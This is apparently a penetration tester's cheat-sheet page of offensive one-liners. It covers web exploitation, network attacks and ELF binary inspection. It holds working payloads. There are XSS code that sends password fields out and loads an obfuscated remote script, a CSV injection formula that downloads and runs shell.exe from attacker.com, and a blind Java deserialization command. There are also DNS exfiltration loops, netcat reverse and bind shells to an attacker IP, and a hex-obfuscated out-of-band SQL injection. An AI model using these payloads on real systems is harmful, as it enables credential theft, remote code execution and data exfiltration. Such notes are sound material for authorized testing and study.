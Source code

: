 ```yaml
---
layout: default
tag: notes
---
```


## Web Exploitation

1. \[Payloads\] Cross Site Scripting Attack

   * Exfilterate password with Ajax jquery

   ```javascript
$.get("https://localhost/"+document.getElementsByName('username')[2].value+document.getElementsByName('password')[3].value,0);
```

   * Include external JS script in script context with Ajax jquery

   > *Mainly useful when payload size is very restrictive*

   ```javascript
$.getScript(String.fromCharCode(104,116,116,112,58,47,47,120,115,115,47,116,46,106,115),1)
```

2. \[Payloads\] Deserialization Attacks

   * Dealing with `.exec()` problem in Blind Java Deserialization

   ```bash
java -jar ysoserial.jar CommonsCollections1 'sh -c $@|sh . echo ping $(whoami).<attacker.com>' | base64 | tr -d "\n"
```

3. \[Payloads\] CSV Injection Out of band Exploitation

   ```bash
=cmd|' /C powershell Invoke-WebRequest "https://attacker.com/shell.exe" -OutFile "$env:Temp\shell.exe"; Start-Process "$env:Temp\shell.exe"'!A1
```

## Network

1. DNS Exfiltration

   * On Victim machine Linux
   ```bash
for i in `ls`; do host $i.domain.com domain.com;done
```
   * On Attacker's machine
   ```bash
tcpdump -vvv -s 0 -l -n dst host domain.com and dst port 53 -w dump
```
   * To view data only for saved packet dump
   ```bash
tcpdump -r dump|cut -d"?" -f2|awk 'split($0,a,".domain"){print a[1]}'|sort -u
```

2. Reverse and Bind shells  

   * Reverse shell With Traditional Netcat [Without -e flag]
   ```bash
/usr/bin/mknod /tmp/bp p;/bin/nc <attacker_ip> 1337 0</tmp/bp | /bin/sh 1>/tmp/bp
```
   ```bash
/usr/bin/mkfifo /tmp/mf;/bin/nc <attacker_ip> 1337 < /tmp/mf | /bin/sh &>/tmp/mf
```

   * Bind shell with Traditional Netcat [Without -e flag]
   ```bash
	/usr/bin/mkfifo /tmp/bmf;nc -lk 1337 0< /tmp/bmf | /bin/sh &>/tmp/bmf
```

3. Debugging Servers

   * HTTPS Server
   {% highlight python %}

# Generate Server Certificate 
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# python simple-https-server.py

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('localhost', 4443), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()

   {% endhighlight %}

   * SMTP Server
   ```bash
python -m smtpd -n -c DebuggingServer localhost:25
```


## Binary Exploitation

1. Linux

   1. Find the offset of /bin/sh in libc
    ```bash
strings -a -t x /lib/libc-2.11.2.so |grep "/bin/sh"
```

    2. Find ROP gadgets
    ```bash
objdump -d -M intel ./<binary.elf>|grep -B5 "ret"
```
    3. Find if stack is execuatble and writable memory locations
    ```bash
readelf -lS ./<binary.elf>
```
    4. Find memory address of Global offset table
    ```Bash
objdump -R ./binary.elf
```
    5. Get Entry point of ELF file
    ```Bash
readelf -h ./binary.elf
```
    6. Get file headers, section headers and program headers
    ```Bash
readelf -e ./binary.elf
```

## MISC

* Important Links

   * Windows One liners to download and execute payload

      * [https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)


* \[MySQL\] Out of Band SQL Injection \[Without Quotes\] 
    ```bash
12,13) union select LOAD_FILE(group_concat(0x2f2f2f2f,(select @@version_compile_os),0x2e61747461636b65722e636f6d2f2f6d7973716c5f65787472616374)),2 -- 
```